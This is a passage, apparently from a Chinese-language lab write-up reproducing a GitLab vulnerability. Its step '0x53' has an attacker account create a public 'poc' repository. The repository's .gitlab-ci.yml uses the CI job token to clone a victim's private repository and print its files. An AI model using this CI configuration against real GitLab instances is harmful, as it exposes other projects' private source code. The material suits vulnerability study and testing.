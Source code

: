 ![](imgs/05.png)



### 0x53 创建攻击者的 poc 仓库

- 使用 `attacker1` 账号登录 Gitlab
- 新建仓库 `New Project`：
    - Name： `poc`
    - Visibility Level： `Public`
- 在仓库内新建 `.gitlab-ci.yml` 文件，其内容为：

```
image: "ruby:2.6"

rspec:  
  script:  
    - git clone http://gitlab-ci-token:$CI_JOB_TOKEN@172.168.30.2/victim/target.git
    - cd target
    - ls -lah .  
    - cat README.md
```
